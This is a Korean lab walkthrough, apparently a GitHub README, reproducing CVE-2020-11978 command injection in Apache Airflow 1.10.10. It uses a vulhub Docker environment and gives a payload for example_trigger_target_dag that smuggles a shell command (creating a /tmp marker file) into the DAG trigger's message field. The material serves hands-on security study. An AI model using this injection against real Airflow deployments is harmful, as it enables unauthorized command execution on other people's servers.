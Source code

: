 #CVE-2020-11978 - Apache Airflow
개요]
Apache Airflow는 Python 기반의 워크플로우 스케줄링 도구로, DAG(Directed Acyclic Graph)를 기반으로 작업을 정의하고 실행합니다.  
버전 1.10.10 이전에는 `example_trigger_target_dag` 내 사용자 입력값이 필터링되지 않아, **명령어 인젝션(command injection)** 이 가능한 취약점이 발견되었습니다. 이 실습은 해당 취약점을 기반으로 취약한 컨테이너 환경을 구성하고, 공격 흐름을 직접 따라해보며 이해하는 데 목적이 있습니다.

실습 환경]
- Ubuntu 20.04 (VirtualBox 가상 머신)
- Docker + docker-compose
- Airflow 1.10.10 (vulhub 이미지 사용)

1. 취약 환경 구축]

vulhub 프로젝트를 클론한 뒤, Airflow 취약점 환경 디렉토리로 이동하여 컨테이너를 실행합니다.

git clone https://github.com/vulhub/vulhub.git
cd vulhub/airflow/CVE-2020-11978
sudo docker compose run airflow-init
sudo docker compose up -d


2. Airflow 관리 페이지 접속
브라우저에서 http://localhost:8080 접속하여 DAG 목록을 확인합니다.


3. 취약한 DAG 활성화 및 공격 시도
example_trigger_target_dag를 On으로 활성화하였습니다.


오른쪽 Trigger DAG 버튼을 클릭하였습니다.


그리고 다음과 같이 명령어 인젝션 페이로드를 입력하였습니다.
{"message":"'\";touch /tmp/airflow_dag_success;#"}

공격 시도 결과
sudo docker compose exec airflow-worker ls –l /tmp를 확인하면
`/tmp/airflow_dag_success` 파일이 생성되어 명령어 인젝션을 성공하게 됩니다.
